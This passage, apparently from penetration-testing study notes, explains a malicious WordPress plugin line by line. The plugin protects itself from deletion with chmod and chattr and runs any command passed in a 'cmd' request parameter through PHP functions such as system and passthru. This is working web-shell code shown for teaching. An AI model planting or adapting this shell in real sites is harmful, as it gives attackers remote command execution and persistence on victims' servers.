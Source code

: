 ```php
9 \*/
```

-    Lines 2-9 in Listing 875 are comments that are required for WordPress to recognize the file as a plugin.

```php
11 # attempt to protect myself from deletion  
12 $this\_file = \_\_FILE\_\_;  
13 @system("chmod ugo-w $this\_file");  
14 @system("chattr +i $this\_file");
```

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/28.jpg)

 - Lines 12-14 attempt protect the file from being deleted by the system

```php
19 # test if parameter 'cmd', 'ip or 'port' is present. If not this will avoid an err  
or on logs or on all pages if badly configured.  
20 if(isset($\_REQUEST\[$cmd\])) {  
21  
22 # grab the command we want to run from the 'cmd' GET or POST parameter (POST d  
on't display the command on apache logs)  
23 $command = $\_REQUEST\[$cmd\];  
24 executeCommand($command);
```

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/29.jpg)

-    Lines 20-24 will attempt to run a system command if the cmd variable is set in the HTTP request

-    The plugin will use the execute Command function in order to identify and execute the appropriate PHP internal API to run a command on the target system.
-    The execute Command function can befound on Lines 47-82.

```php
47 function executeCommand(string $command) {  
48  
49 # Try to find a way to run our command using various PHP internals  
50 if (class\_exists('ReflectionFunction')) {  
51  
52 # http://php.net/manual/en/class.reflectionfunction.php  
53 $function = new ReflectionFunction('system');  
54 $function\->invoke($command);  
55  
56 } elseif (function\_exists('call\_user\_func\_array')) {  
57  
58 # http://php.net/manual/en/function.call-user-func-array.php  
59 call\_user\_func\_array('system', array($command));  
60  
61 } elseif (function\_exists('call\_user\_func')) {  
62  
63 # http://php.net/manual/en/function.call-user-func.php  
64 call\_user\_func('system', $command);  
65  
66 } else if(function\_exists('passthru')) {  
67  
68 # https://www.php.net/manual/en/function.passthru.php  
69 ob\_start();  
70 passthru($command , $return\_var);  
71 $output = ob\_get\_contents();  
72 ob\_end\_clean();  
73  
74 } else if(function\_exists('system')){  
75  
```